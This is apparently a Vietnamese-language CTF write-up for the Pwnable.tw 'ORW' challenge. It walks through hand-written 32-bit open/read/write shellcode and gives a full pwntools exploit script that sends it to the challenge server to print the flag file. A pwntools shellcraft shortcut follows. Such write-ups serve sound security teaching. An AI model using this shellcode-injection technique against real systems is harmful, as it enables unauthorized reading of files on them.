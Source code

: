 ### Pwnable.tw - ORW

# Preview 


![image](https://user-images.githubusercontent.com/90976397/176607610-e7504449-83a8-4102-a551-27399b28e04f.png)

Đây là câu thứ 2 trên Pwnable.tw và cũng là câu thứ 2 mà mình viết trong series này. 

Đây là một câu khá cơ bản trong mảng pwnable, chỉ đòi hỏi về kỹ năng viết assembly code.

Ở bài trước mình đã nói, assembly code rất là quan trọng trong mảng này, chừng nào còn đụng đến binary là còn đụng đến assembly code :D, vì thế nên hãy học assembly code một cách nghiêm túc.

![image](https://user-images.githubusercontent.com/90976397/176624348-f5b82f50-f67c-4826-ac89-cabfa564642a.png)

Tải file về rồi kiểm tra xem loại file và những cơ chế bảo mật nào được enable.

![image](https://user-images.githubusercontent.com/90976397/176624755-231c9ac4-9669-4340-b294-183c3231f7f9.png)

Một file ELF 32-bit LSB executable và không bị stripped

![image](https://user-images.githubusercontent.com/90976397/176625135-678c3bb1-7f60-4ef4-97ad-6bd6039db2a5.png)

Dường như chỉ có mỗi canary là được bật, ở bài trước mình đã nói sơ sơ về cơ chế Non-Executable, ở bài này NX disable thì hiển nhiên việc chúng ta sẽ làm đó là cần phải viết shellcode rồi :) viết sao thì ở dưới mình sẽ nói rõ.  

![EXfRo89XYAA-J5v](https://user-images.githubusercontent.com/90976397/176627953-76c18257-2360-4301-89d5-a404eab127a7.jpg)

# Analyze 

Mở IDA/Ghidra để xem thử bên trong nó có gì 

Btw, một lần nữa, mình khuyến khích các bạn nên đọc assembly code thay vì đọc pseudocode nhé, giúp ích nhiều lắm đấy 

![image](https://user-images.githubusercontent.com/90976397/176628953-4e10f5d3-b12d-4767-9a92-5f5c1751eb0e.png)

Dường như trong hàm main không có gì đặc biệt, chỉ là in ra dòng chữ "Give me your shell code: " rồi cho chúng ta nhập input vào.

Ở bài này thực sự không có gì nhiều để nói, nhưng mình sẽ cố gắng giải thích chi tiết để cho bạn hiểu rõ hơn về dạng bài viết assembly code nhé :).


# Exploit 

![image](https://user-images.githubusercontent.com/90976397/176630907-17df1123-de8d-4280-bce0-5b2a5634bb85.png)

Như description của bài này thì chúng ta có thể thấy nó đã chỉ cách làm bài này cho mình luôn rồi 

![image](https://user-images.githubusercontent.com/90976397/176631232-51a481c2-1239-43cf-916e-8933a5e29381.png)

Chỉ cần mở, đọc, in ra flag :) easy phải không ?

![75720175](https://user-images.githubusercontent.com/90976397/176632083-c218dd14-ac59-493c-9a7c-b8d03cb661e1.jpg)


Đầu tiên là push flag vào stack

Flag nằm ở ///home/orw/flag

Vì đây là cấu trúc 32-bit thế nên là phải đổi chuỗi "///home/orw/flag" sang hex và vì 32-bit nên chỉ push 4 byte một, ngoài ra đọc theo little-endian
"///home/orw/flag" đổi sang "galf/wro/emoh///"(vì đọc theo dạng byte little-endian) đổi sang mã hex là "67616c66 2f77726f 2f656d6f 682f2f2f"
```
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h
```
Bây giờ cứ theo mô tả cả đề và từng bước đề đã nói mà làm thôi

Open
```
shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước
```
Read
```
shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall
```
Write

```
shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
```
Và cuối cùng chỉ cần execute cái shell này và chúng ta đã có được flag

![image](https://user-images.githubusercontent.com/90976397/176654117-d45db29d-e594-410e-a2e3-41e2332d700a.png)

full script: 
```
from pwn import * 

r = remote("chall.pwnable.tw",10001)
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h

shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước 

shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall

shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
print(shellcode)
r.sendline((shellcode))

r.interactive()
```

Thực chất thư viện pwntools rất là mạnh, nó cung cấp cho chúng ta rất là nhiều công cụ để giải một câu pwn. Ở câu này chúng ta có thể sử dụng module pwntools như sau: 

```
shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
```
Chỉ cần 4 dòng, ngắn hơn rất nhiều so với cái ở trên. Nhưng cái gì cũng có cái giá của nó, trước khi bạn sử dụng những công cụ có sẵn như này thì bạn phải thuần thục ngôn ngữ assembly đã, không nên dựa dẫm quá nhiều vào những cái có sẵn. 

Peace~






